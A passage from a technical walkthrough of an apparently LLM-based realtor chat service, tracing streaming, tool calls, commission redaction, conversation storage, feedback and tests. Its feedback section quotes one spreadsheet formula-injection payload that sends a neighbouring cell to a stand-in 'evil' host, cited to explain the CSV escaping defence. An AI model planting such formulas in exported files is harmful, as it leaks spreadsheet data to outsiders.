chat to stateless (the client's own turns are used, a warning is logged) rather
than failing the question. Part V takes this whole layer apart.

### Step 3½ — The stream opens

`/chat` returns a `StreamingResponse` of **Server-Sent Events**: a long-lived
HTTP response where the server writes `data: {...}` lines as things happen. It is
why the realtor sees words appearing rather than five seconds of spinner, and it
is one of the reasons this service does not live inside Apps Script, which cannot
stream at all.

The first event is always:

```
data: {"type": "start", "mode": "realtor", "conversation_id": "ae4395be-…"}
```

The mode is echoed **before any content** so the interface can prove which mode
it is in. A realtor must never wonder whether the screen they just turned toward
a buyer is safe. `conversation_id` rides along so a brand-new chat learns its
own id without a second request — the client saves it and sends it back with
the next question.

### Step 4 — The agent runs

> Steps 4–9 are the agent layer. This section keeps the pace of the walkthrough;
> [the-agent.md](the-agent.md) retells the same stretch slowly — every method in
> order, what PydanticAI is, how a docstring becomes a tool description, the
> `Deps` bag, the loop round by round. If the question in your head is "what
> exactly is the runtime and how does my answer get back to the screen", read
> that document next.

`PydanticAgentRuntime.stream()` in `agent_pydantic.py` is the most intricate
function in the service. Two coroutines share one queue.



**Why a queue and not a list.** The first version collected events into a list
and drained it inside the text loop. But `stream_text` yields nothing until the
model has finished calling tools — so the buffer could only flush *after* the
work it described. Measured live: everything arrived together at 4,300ms. With
the queue:

```
  1491ms  start
  2252ms  tool         search_projects     ← "searching…" appears here
  3575ms  tool_result  search_projects
  4300ms  text                             ← previously ALL of it landed here
  4915ms  done
```

Two seconds of visible progress where there had been a blank spinner.

The consumer cancels the background task in a `finally`. Before that, a realtor
closing the app mid-answer left the run going — and billing — with nobody
reading it.

### Step 5 — The model decides

The agent is built once per mode and reused. Constructing it per request created
a fresh OpenAI client and connection pool every time, none of them ever closed.

It is given:

- **The system prompt** (`prompts.py`), whose first rule is: never state a price,
  deposit, incentive, occupancy or bedroom count that did not come back from a
  tool in this conversation.
- **Five tool definitions**, generated from the Python signatures.
- **The conversation so far**, converted from `Turn` objects — read from the
  store when there is one, from the request body when there is not. Text only:
  replaying an old tool result would put a price the sheet has since changed back
  into the prompt, with no way for the model to know it was stale. Each stored
  assistant turn also carries one extra line — `[projects: AK-0015 Urban
  Towndominiums; …]` — which is what lets a follow-up like "compare the first
  two" name real ids. Part V explains why that line exists.
- **A hard cap of 6 model round trips** (`MAX_STEPS`). The framework's own
  default is 50, which is not a limit anyone chose.

The model replies with a tool call: `search_projects(city="BRAMPTON",
categories=["townhome"])`.

### Step 6 — The tool runs

Four layers, each of which knows less than the one below it.



Three things happen here that are easy to miss:

**Filtering runs on unredacted records.** Think of `RedactingProjectRepo` as a
clerk standing in front of a filing cabinet. The model never opens the cabinet
itself. It asks the clerk for "detached homes under $1M in Brampton with
commission over 4%"; the clerk reads the *full* sheets — commission included,
which is how it matched at all — pulls the ones that fit, then photocopies them
with the commission blacked out and hands over the copies. The model answers
from the copies, so the number never reaches the prompt and cannot be read
aloud to the buyer standing beside the phone. Alone in Realtor Mode, the same
clerk blacks out nothing and hands over the originals.

Concretely: `RedactingProjectRepo` asks the inner repo to filter, then redacts
the results. A search may legitimately *use* a field
it must not *show* — redacting first would silently change which projects come
back depending on who is looking, which is worse than showing too little because
it is invisible.

**The index is one payload, cached five minutes.** Aura Chat fetches all ~249
rows — 162 projects once the ONTARIO roll-up duplicates are dropped — and
filters in Python, rather than asking the portal to filter. Apps
Script runtime is a single daily budget shared with the realtors' own app, so a
busy conversation costs one fetch per five-minute window instead of one per
question.

**The cache is one slot for the whole process.** Correct today only because
`aiindex` returns identical bytes to every signed-in realtor. If it ever varies
by role, this must be keyed on the same axis — the portal already faces this in
`getBuilders_`, which keeps separate cache keys so an admin's payload can never
reach a realtor. Recorded as invariant #9.

### Step 7 — A sheet row becomes a Project

`ExecApiProjectRepo._to_project()` is the containment boundary. Everything a
sheet knows stops here.



The parsers in `parsing.py` follow one rule: **never guess.**

| input | result | why |
|---|---|---|
| `"$899,900"` | `899900` | |
| `"From $899,900"` | `899900` | prefixes are noise |
| `"$1.2M"` | `1200000` | |
| `"$800,000 - $1,400,000"` | low `800000`, high `1400000` | both ends kept |
| `"1.2"` | `None` | $1.20 or $1.2M? Refuse rather than guess |
| `"TBD"` | `None` | not filled in — different from unreadable |
| `"10%"` | `10.0` | |
| `"0.1"` | `10.0` | a percent-formatted cell shown as a fraction |
| `"1%"` | `1.0` | the `%` already said what it is |

And in `matching.py`: **an unpriced project never satisfies a price filter.** It
is *unknown*, not cheap. Letting it through is how an answer ends up asserting
something the sheet never said.

### Step 8 — Results come back

`tools.py` caps at 12 results and 4 comparisons. One question must never drag the
whole sheet into a prompt.

`agent_pydantic._for_model()` converts each `Project` to a dict for the model,
**dropping empty fields entirely**. A page of `""` teaches a model that missing
data is normal and invites it to fill the gaps; what is absent should be absent.

Each project is also kept in `Deps.collected`, deduplicated by id — including
duplicates *within* one result set, because two rows can share a `PROJECT ID`
while the column is being entered by hand.

### Step 9 — The answer streams

The model writes prose. Each delta becomes a `text` event.

Then two closing events:

```
data: {"type":"projects","projects":[ ... ]}
data: {"type":"done","usage":{"requests":2,"input_tokens":1957,"output_tokens":41}}
```

**The cards are built from `Deps.collected` — the tool results — never parsed out
of the model's prose.** If the model says *"around $1.2M"* about an $899,900
project, the card still says $899,900. Restating numbers is how they drift
between the sheet and the buyer.

While these events flow past, `chat.events()` is quietly reading its own
stream. It accumulates the answer text from the `text` events, the project ids
from the `projects` event, the tool names and token counts for the audit line —
all **by watching the same events the client receives**, never by reaching into
the agent. That is why adding persistence and audit logging changed nothing in
`agent_pydantic.py`: the stream is the one source of truth, and everything that
needs to know what happened observes it.

Then, in a `finally` — so it runs whether the stream finished, failed, or the
realtor walked out of signal mid-answer:

1. **The answer is stored**, with the ids and names of the projects it used
   (the `sources` column). A stopped stream leaves the partial answer, which
   beats a question with nothing under it.
2. **One audit line is written** (AUR-20). A real one, from the request traced
   above:

```json
{"rid":"b97126475dac","user":"Demo","role":"realtor","mode":"realtor",
 "question":"how many projects do we have in Brampton, and show me the townhomes under 900k",
 "conversation_id":"ae4395be-…","tools":[{"t":"inventory_summary"},{"n":1,"t":"search_projects"}],
 "tokens_in":4038,"tokens_out":47,"ms":5726,"status":"ok","error":null}
```

Who asked, what they asked, which tools ran, what it cost, how long it took,
how it ended. The question is in the line and **the answer never is** — in
Realtor Mode an answer can quote commission, and a log is not where that
lives. `status` is `ok`, `error`, or `incomplete` — the last meaning the
request was cancelled before the stream finished, usually a backgrounded
phone. `rid` matches the `X-Request-Id` the client received, which is how a
complaint finds its log line.

### Step 10 — The client renders

The PWA chat screen lives in `Script.html` (the portal repo root — the phone
app is generated from it). What it does with the stream, in order:

**It reads the stream by hand.** The browser has a built-in SSE client,
`EventSource`, and the app deliberately does not use it: `EventSource` can only
GET, cannot send an `Authorization` header (the token would end up in a URL),
and reconnects on close without being able to tell a finished stream from a
dropped one — every answered question would immediately ask itself again. So
`auraAsk()` uses `fetch()` and reads the response body as a **`ReadableStream`**:
chunks arrive, get buffered, split on the blank line that separates SSE frames,
and each `data: {...}` line is parsed and dispatched on its `type`.

**Each event type moves the screen.** `start` repaints the mode header (and
stores the `conversation_id`); `tool` becomes the "Searching Brampton…" status
line; `text` deltas append to the answer bubble — rendered through a tiny
markdown parser that builds DOM nodes and never touches `innerHTML`, because
model output is data, not markup; `projects` becomes the cards, built by the
same `projectCard()` that renders the city screens; `done` swaps the stop
button back to send and attaches the feedback row.

**A stream that just stops is treated as a failure.** iOS suspends fetches when
the app is backgrounded, proxies time out, containers recycle — so a stream can
end without `done` or `error` ever arriving. The client notices ("the answer
was cut off") rather than leaving a caret blinking under half an answer.

The CLI (`app/cli.py`) consumes the identical stream in a terminal; `--dev`
shows each tool call with arguments, timings and token usage — which answers
*"was this a data, a retrieval, or a model problem?"* in one screen.

### The whole thing, measured

The trace above is not hypothetical. This is a real question against the live
service, timestamped at the client:

```
  3498ms  start        mode=realtor conversation_id=ae4395be-…
  4766ms  tool         inventory_summary {"city": "Brampton"}
  4766ms  tool         search_projects {"max_price": 900000, "categories": ["Townhome"], "city": "Brampton"}
  6507ms  tool_result  inventory_summary → count 1
  7019ms  tool_result  search_projects → count 1
  8816ms  text         "We"
  8906ms  text         " have 21 projects in Brampton. Seven of them are townhomes under $900k…"
  8908ms  projects     7 cards
  8908ms  done         {"requests": 2, "input_tokens": 4038, "output_tokens": 47}
```

Worth noticing: the model asked for **both tools in one round trip** (two `tool`
events at the same millisecond), the realtor watched "searching…" for the two
seconds the tools ran, and the whole answer took two model round trips — one to
decide, one to write.

---

## Part V — The conversation is remembered

Until Phase 4 the service had no memory: the phone re-sent the last 20 turns
with every question, and closing the app lost the thread. Now the server owns
the conversation, in three Postgres tables. This part is that whole layer.

### 5.1 What is stored, and what deliberately is not

| Table | One row is | Notable columns |
|---|---|---|
| `ai_conversations` | one thread | `user_id` (the isolation key), `title` (the first question, truncated), `mode` |
| `ai_messages` | one turn | `role`, `message`, `sources` — the project **ids and names** an answer used |
| `feedback` | one report | `verdict`, `category`, `note`, `project_ids` |

What is *never* stored: project records. A reopened conversation shows the
answer text as it was said, but never a cached price — the architecture forbids
a second copy of the sheet, so prices exist only in the live index.
[schema.md](schema.md) has every column.

**The pool is lazy, and the schema rides the boot.** `store_postgres._ready()`
creates the connection pool on first use (a database briefly unreachable at
startup must degrade, not stop the boot) and runs `schema.sql` — a file of
`CREATE TABLE IF NOT EXISTS` statements — before publishing the pool. Running
it on every boot is safe because it is idempotent, and it is the entire
migration system: three tables did not justify a migration tool. One trap was
found the hard way: assign the pool *before* the schema succeeds and a failed
schema leaves a usable pool with no tables — `healthy()` says fine, every real
query fails, forever.

**`asyncpg`**, if the name is new, is the Postgres driver for asyncio Python —
it speaks to the database without blocking the event loop, which matters in a
service whose whole job is holding many slow streams open at once. It is
imported in exactly one file, the same rule as every other vendor.

### 5.2 Isolation: a conversation id is a label, not a key

Every read that can reach a conversation carries the username **from the
verified token** into the SQL itself:

```sql
WHERE m.conversation_id = $1 AND c.user_id = $2
```

So a leaked or guessed conversation id opens nothing. `GET /conversations/{id}`
answers **404 for someone else's thread — the same 404 as for one that never
existed**, because telling "not yours" apart from "not there" is itself a
disclosure. This is enforcement in the query, not a check a route has to
remember; there is no code path that reads a thread without a user attached.

The one deliberate exception: `list_feedback()` has no user filter, because the
review queue exists *for* the data owner to read everyone's reports — and the
route above it requires an admin token (Part VI).

### 5.3 History reaches the model as text — plus one crucial line

When a conversation continues, `_history()` loads the stored rows and
`turns_from()` (in `domain/conversation.py`) turns them into the `Turn` list
the model receives. Text only, as ever. But each assistant turn gains one
appended line, built by `source_line()` from the `sources` column:

```
[projects: AK-0015 Urban Towndominiums; AK-0019 Arbor West; AK-0012 Reva Westfield; …]
```

**This line is the compare-by-name fix**, and it earns a story. History is
prose, so the model used to know a previous answer *named* "Arbor West and
Reva Westfield" but had no idea what their ids were. Asked to "compare the
first two", it needed ids for `compare_projects` — so it invented plausible
ones (`oakville-townhomes-1`) and the lookup failed. Storing the ids an answer
used, and replaying them as one line the model can read, closes the loop.
Names travel beside the ids because the model matches on what it wrote.

Watched live: after the Brampton question above, the follow-up **"compare the
first two"** produced

```
tool  compare_projects {"project_ids": ["AK-0015", "AK-0019"]}
```

— the two real ids from the stored source line, in the order the answer listed
them. Before this fix, that call carried invented ids and the comparison died.

The line is clamped so it can never be cut mid-id — a truncated
`[projects: AK-00` would reintroduce the exact invented-id failure it exists to
stop. And it is for the model only: `GET /conversations/{id}` returns the
stored rows, not the model-facing turns, so a realtor rereading a thread never
sees it.

### 5.4 Reopening a thread — the chats panel

The clock icon in the chat header opens a slide-over panel (it lives inside the
chat overlay rather than being a page of its own, because navigating away would
close the chat it is listing). The flow:



Two decisions in that last stretch are deliberate:

- **The mode is applied before a single turn renders.** A thread held in Client
  Mode must come back under the amber header, not appear under the realtor-blue
  one and switch a moment later — that flicker is exactly the doubt the header
  exists to remove.
- **Reopened answers show text and no cards.** Only ids and names were stored,
  and rebuilding cards from ids would today show the wrong project for the 16
  of 162 whose id is shared with another
  ([known-issues 5](known-issues.md)) — a different project's price under the
  sentence that quoted the right one. Cards return in the live session, and on
  reopen once `PROJECT ID` is filled.

The phone still keeps a copy of the current thread in `localStorage` — but only
as a convenience for instant paint on relaunch. The server's copy is the truth,
survives reinstalls, and follows the realtor to another device.

### 5.5 When the database is down

Persistence is the feature that degrades. Store unreachable mid-question: the
answer still streams, history falls back to the client's turns, a warning is
logged. `/conversations` answers `503` with the same sentence whether the store
is down or was never configured — a realtor cannot act on the difference.
`/health` stays green throughout, because a database blip must not let a
platform restart policy kill a service that is otherwise answering.

---

## Part VI — Feedback: from a thumb to the reviewer's screen

Under every answer (in Realtor Mode — never with a buyer watching) sit three
controls: 👍, 👎, and *Report data issue*. This flow exists because the sheet is
filled by hand and the people who find its errors are the realtors reading
answers.



Details that matter:

- **`verdict` may be null.** A thumbs-down judges the *answer*; a data issue
  reports the *sheet* — a well-sourced answer can quote a stale price through
  no fault of its own. Filing reports as downvotes would corrupt the
  helpfulness rate, so the two travel separately, and a report must carry at
  least one of verdict, category, note.
- **The log line is written first, unconditionally.** A database that is down
  costs the queue its sortability, not the realtor's report — and answering 500
  would train them to stop sending feedback at all.
- **The reviewer's screen is server-gated.** The *Aura Reports* row appears in
  the drawer only for an admin — the app asks `GET /me` — but that is a
  courtesy. The gate that matters is `claims.is_admin` checked on
  `GET /feedback` itself; a realtor calling the URL directly gets 403 and the
  data never leaves the server.
- **The CSV is defused.** It exists to be pasted into Google Sheets, and `note`
  is realtor-typed — so a note of `=HYPERLINK("https://evil/?"&A1,…)` would
  otherwise arrive as a *live formula* carrying the neighbouring cell into a
  URL. Any cell starting with `=`, `+`, `-` or `@` is prefixed with a quote,
  which spreadsheets consume on display.

---

## Part VII — The other flows

### `GET /health` — for the platform

Public, cheap, deliberately uninformative: `{"status": "ok", "ok": true}`. It
says whether we are serving, not which secret is missing — a stranger learning
that `TOKEN_SECRET` is unset is a stranger learning when to try forging one.

The portal probe underneath is cached (60s on success, 5s on failure) because
an uptime monitor polling every 30 seconds would otherwise spend ~2,900 Apps
Script executions a day out of a budget the realtors' own app shares.

### `GET /doctor` — for a human

Requires that a token was *sent*, not that it verifies. Runs every check that
needs one, and says which failed:

| # | check | proves | critical |
|---|---|---|---|
| 1 | `config` | which settings are missing, by name | yes |
| 2 | `portal_reachable` | the deployment answers at all | yes |
| 3 | `model` | the runtime is wired | yes |
| 4 | `portal_auth` | the portal accepts **this** token | yes |
| 5 | `token_verification` | our `TOKEN_SECRET` matches the portal's | yes |
| 6 | `project_data` | **Aura can actually read projects** | yes |
| 7 | `conversation_store` | Postgres answers `SELECT 1` | no |
| 8 | `document_index` | Phase 5 — currently `not wired yet` | no |
| 9 | `data_quality` | how many projects, how many unreadable prices | no |

Checks 4 and 5 are a pair, and the pairing is the point. **A wrong
`TOKEN_SECRET` and an expired session look identical from the outside** — every
realtor gets 401 while `/health` stays green. Reading the portal's verdict
against our own separates them:



That last branch is the one nobody diagnoses quickly without help, which is the
whole reason `/doctor` accepts a token that does not verify.

For an unverified caller the report still runs, but detail is **redacted**
everywhere except `token_verification` and `portal_auth` — they are the
diagnosis, and neither tells a stranger anything usable.

Severity is graded. A missing conversation store makes the report `degraded`; a
failing `project_data` makes it `down`. So a platform restart policy fires on a
real outage and not on Postgres hiccuping.

`?fresh=1` rebuilds both caches — ours and the portal's. It walks all 38 tabs
and takes about a minute, so it carries its own 240-second timeout; the ordinary
30-second read budget cut it off part-way and reported it as "portal
unreachable", which points at the network rather than at the clock.

### `GET /me`

Two lines, and it earns them: `{user, role, admin}` for a verified token, 401
otherwise. It proves the whole auth path end to end without touching project
data, which makes it the first thing to try when `/chat` misbehaves and you want
to know whether the problem is authentication at all.

### `GET /conversations` · `GET /conversations/{id}` · `POST /feedback` · `GET /feedback(.csv)`

Covered where their stories live: reading threads back in
[Part V](#part-v--the-conversation-is-remembered), feedback and the admin queue
in [Part VI](#part-vi--feedback-from-a-thumb-to-the-reviewers-screen). Shapes
and status codes are in [api.md](api.md).

### `POST /login`

A pass-through to the portal, which owns the LOGIN sheet, the password hashing
and the rate limiting. Nothing is stored or logged here — the password exists for
the length of one outbound request, and what comes back is the token.

It passes the portal's own wording through, because *"too many attempts — try
again in a few minutes"* and *"invalid id or password"* mean different things to
whoever is trying to get in.

### The portal side

Aura Chat added exactly one thing to the Apps Script project: `Ai.js`, holding
`getAiIndex_()` and the `aiindex` action. Read-only, composing readers that
already existed, in its own file so the whole surface can be deleted in one move.

`FIELD_KEYS` in `Core.js` gained ten commercial columns. Additive: an unmapped
column reads as empty, so the 37 tabs that do not carry them behave exactly as
before.

One trap is commented there. `buildColMap_` binds each field to the **first**
header containing its keyword, so `PRICE` would have matched ONTARIO's
`PRICE RANGE` — the keyword is the whole `STARTING PRICE`. And a `PROJECT ID`
column added at column A rather than the right-hand end would both make every
project render as an id *and* stop `getCities_` recognising the tab at all.

---

## Part VIII — The CLI, traced

`aura` is the only working client today, and it is a useful thing to trace
because it uses the service exactly as the phone app will.

### Signing in



The password is typed by the person at the keyboard, travels once, and is
written nowhere. What is stored is the token — a bearer credential, so `0600` is
the least the file deserves.

Token precedence when asking: `--token` → `$AURA_TOKEN` → the session file. If
none of the three yields anything, the CLI says `not signed in — run aura login`
rather than sending an empty header and reporting a 401.

### Asking

`ask()` opens the SSE stream and hands each event to `_render()`, which behaves
differently in three modes:

| mode | text | tool events | errors |
|---|---|---|---|
| normal | printed as it streams | hidden | stdout |
| `--dev` | held, printed whole at the end under the trace | shown with args and timings | stdout |
| `--json` | **suppressed** | hidden | **stderr** |

`--json` suppresses the live echo because anything printed before the object
makes the output unparseable — which is the one thing that flag exists for.
Errors go to stderr for the same reason.

### Holding a conversation

The REPL keeps `history` as a list of `{role, content}` and sends it with each
question, trimmed to the same 20-turn cap the server enforces so a long session
cannot start failing validation.

**A turn that produced no answer is not recorded.** `ask()` returns an empty
answer when the stream carried an `error` event, and an empty assistant message
is rejected outright by some providers — one failure would poison every question
after it. Both halves of the turn are dropped, because keeping the user half
alone leaves two consecutive user messages, which fails the same way.

`/new` clears it, `/mode` switches audience, `/dev` toggles the trace.

---

## Part IX — How this is tested

343 tests across 21 files, and **not one of them touches the network or a real
database.** That is not a performance choice: if a test needs the real portal to
run, the seam it is testing is not real.

The two things that genuinely need a database — schema idempotence, isolation
against real SQL — live in `scripts/check_store.py` and
`scripts/check_chat_persistence.py`, run by hand against a local Postgres.
Deliberately **not** pytest: a test that silently skips when Postgres is absent
is a test nobody notices has stopped running.

`tests/fakes.py` holds an in-memory implementation of every port —
`FakeProjectRepo`, `FakeAuthVerifier`, `FakeConversationStore`,
`FakeDocumentIndex`, `FakeAgentRuntime` — plus `make_token()`, which mints a
token exactly the way `Core.js` does so the auth tests exercise the real
contract.

| file | covers |
|---|---|
| `test_layering.py` | the architecture rules, by walking every file's imports |
| `test_auth.py` | the token contract, including a username containing `\|` |
| `test_parsing.py` | every shape a price, deposit or date arrives in |
| `test_matching.py` | every filter rule, one assertion each |
| `test_redaction.py` | all four (role × mode) pairs, **in both directions** |
| `test_projects_exec.py` | sheet shapes in, domain objects out; the cache |
| `test_tools.py` | the five tools against a fake repo |
| `test_agent.py` | the loop, driven by a scripted model |
| `test_chat_endpoint.py` | the SSE contract |
| `test_conversations_api.py` | reading threads back; **a second user gets 404, not another user's thread** |
| `test_conversation_turns.py` | `turns_from` / `source_line` — the ids line, its clamp, the window |
| `test_feedback_endpoint.py` | reports, the nullable verdict, the admin gate, the CSV formula guard |
| `test_limits.py` | the ceilings; a spoofed header cannot reset a counter |
| `test_audit_log.py` | the audit line — asserted through captured stdout, because caplog attaches its own handler, which is exactly what hid the missing one |
| `test_cli.py` | argument handling, session file, history hygiene |

Three of these are worth understanding, because they encode ideas rather than
behaviour.

**`test_layering.py` parses the AST of every file** and fails if `domain/`
imports anything external, if `tools.py` imports an adapter or mentions
`for_viewer`, or if anything but `container.py` constructs an adapter. It caught
a real mistake while this was being built: an adapter's exception type imported
into a route.

**`test_redaction.py` asserts both directions.** Nothing hidden leaks — and
nothing beyond the policy is removed. Over-redaction is a bug too: a realtor who
cannot see the builder's phone number has quietly been handed a worse tool.

**`test_agent.py` scripts the model** with `FunctionModel`, so the tests cover
*our wiring* — that a tool call reaches the right repo, that cards come from tool
results and not prose, that a failure degrades honestly — rather than whether an
LLM behaves. One test deliberately hangs a tool to prove the "searching…" event
arrives *during* the search rather than after it.

---

## Part X — When something breaks

A map from symptom to the place to look.

